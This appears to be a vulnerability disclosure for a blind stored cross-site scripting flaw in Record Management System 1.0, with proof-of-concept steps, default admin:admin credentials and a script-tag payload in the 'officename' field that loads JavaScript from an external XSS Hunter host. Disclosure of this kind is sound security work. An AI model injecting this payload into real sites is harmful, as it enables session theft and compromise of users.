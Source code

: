 # Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Exploit Title:** Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'officename' in "/recordmanagement/main/offices.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Offices: "http://localhost/recordmanagement/main/offices.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Office and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/1a7010d1-375b-4057-887c-f5b77d7b7fc8)
<br>
<br>
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/8ef95f72-c0e4-4dfe-9888-019f74f761a2)
<br>
<br>
![3-3](https://github.com/h4md153v63n/CVEs/assets/5091265/b83ac262-e5b3-4767-931d-06c5baf08efe)
<br>
<br>
![3-4](https://github.com/h4md153v63n/CVEs/assets/5091265/92faa150-3a3c-47c1-a053-033cd70782b6)
<br>
<br>
![3-5](https://github.com/h4md153v63n/CVEs/assets/5091265/0546b16c-44bf-461a-afb0-b128ccde253c)
<br>
<br>
![3-6](https://github.com/h4md153v63n/CVEs/assets/5091265/5110ae7e-b43d-4a1a-a962-84f5c32d6999)
